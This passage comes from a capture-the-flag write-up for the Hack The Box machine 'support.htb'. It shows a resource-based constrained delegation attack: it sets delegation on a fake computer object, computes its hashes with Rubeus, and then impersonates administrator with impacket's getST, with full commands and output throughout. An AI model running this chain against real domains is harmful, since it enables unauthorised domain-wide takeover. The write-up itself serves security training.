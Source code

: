 Now use the built-in AD function to give the new computer object constrained delegation privilege.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
```

With Rubeus, generate the new fake computer object password hashes. Since we created the computer object with the password 123456 we will need those hashes for the next step.

```text-plain
*Evil-WinRM* PS C:\Users\support\Documents> ./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
  
  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : FAKE01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake01.support.htb
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 4799D0F80833802EE7F1412BD30DCD5C
[*]       aes256_cts_hmac_sha1 : 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
[*]       des_cbc_md5          : 836D4C85A4F23B62
```

We are after the value in the ‘aes256\_cts\_hmac\_sha1’ field. 

Kerberos Ticket Impersonation
-----------------------------

Back on our local machine we can use impacket's getST tool to request a kerberos ticket granting ticket (TGT) using the password hash that we just generated.

```text-plain
/home/kali/Desktop/HTB/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

We will need to set the local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.

```text-plain
export KRB5CCNAME=administrator.ccache
```
